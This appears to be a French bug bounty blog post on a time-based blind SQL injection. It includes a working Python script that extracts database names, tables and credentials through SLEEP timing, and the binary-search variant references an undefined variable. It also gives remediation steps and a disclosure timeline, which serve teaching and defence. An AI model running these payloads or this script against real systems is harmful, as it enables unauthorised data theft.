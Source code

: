 ```yaml
---
title: "Exemple: SQL Injection avancée via Time-Based Blind"
date: 2025-09-22
draft: false
---
```


## Introduction

Lors d'un engagement récent en bug bounty, j'ai découvert une injection SQL time-based sur une application web d'entreprise. Voici comment je l'ai exploitée pour extraire des données sensibles.

## Découverte de la vulnérabilité

L'application possédait un paramètre de recherche vulnérable :

```
https://target.com/search?id=1
```

Les tests classiques d'injection SQL ne retournaient aucune erreur visible, mais l'application semblait vulnérable.

## Exploitation Time-Based

### Test initial

J'ai testé une injection time-based pour confirmer la vulnérabilité :

```sql
1' AND SLEEP(5)--
```

Le serveur a pris exactement 5 secondes pour répondre, confirmant la vulnérabilité.

### Script d'exploitation

J'ai créé un script Python pour automatiser l'extraction :

```python
import requests
import time

def extract_data(query):
    url = "https://target.com/search"
    result = ""
    
    for i in range(1, 50):
        for char in range(32, 127):
            payload = f"1' AND IF(ASCII(SUBSTRING(({query}),{i},1))={char},SLEEP(3),0)--"
            
            start = time.time()
            r = requests.get(url, params={'id': payload})
            elapsed = time.time() - start
            
            if elapsed > 2.5:
                result += chr(char)
                print(result)
                break
        
        if char == 126:  # Fin de la chaîne
            break
    
    return result

# Extraction du nom de la base de données
db_name = extract_data("SELECT DATABASE()")
print(f"Database: {db_name}")

# Extraction des tables
tables = extract_data("SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=DATABASE()")
print(f"Tables: {tables}")
```

### Optimisation

Pour accélérer l'extraction, j'ai utilisé la recherche binaire :

```python
def binary_search_char(query, position):
    low, high = 32, 126
    
    while low <= high:
        mid = (low + high) // 2
        payload = f"1' AND IF(ASCII(SUBSTRING(({query}),{position},1))>{mid},SLEEP(2),0)--"
        
        start = time.time()
        r = requests.get(url, params={'id': payload})
        elapsed = time.time() - start
        
        if elapsed > 1.5:
            low = mid + 1
        else:
            high = mid - 1
    
    return chr(low)
```

## Résultats

J'ai pu extraire :
- Le nom de la base de données
- La liste des tables
- Les credentials administrateur (hashés)
- Plusieurs informations sensibles

## Remédiation

Les recommandations pour corriger cette vulnérabilité :

1. **Utiliser des requêtes préparées** (Prepared Statements)
2. **Valider toutes les entrées utilisateur**
3. **Limiter les permissions de la base de données**
4. **Implémenter un WAF**
5. **Monitorer les requêtes anormalement lentes**

## Impact

Cette vulnérabilité a été classée comme **Critique** (CVSS 9.1) car elle permettait :
- L'extraction de données sensibles
- L'accès aux credentials
- La possibilité d'escalade vers RCE

## Timeline

- **2025-09-15** : Découverte de la vulnérabilité
- **2025-09-15** : Rapport au programme bug bounty
- **2025-09-18** : Confirmation par l'équipe de sécurité
- **2025-09-20** : Patch déployé
- **2025-09-22** : Récompense de $3,500 USD

## Conclusion

Les injections SQL time-based sont plus difficiles à détecter mais restent une menace sérieuse. Une bonne pratique de développement sécurisé est essentielle pour prévenir ce type de vulnérabilité.
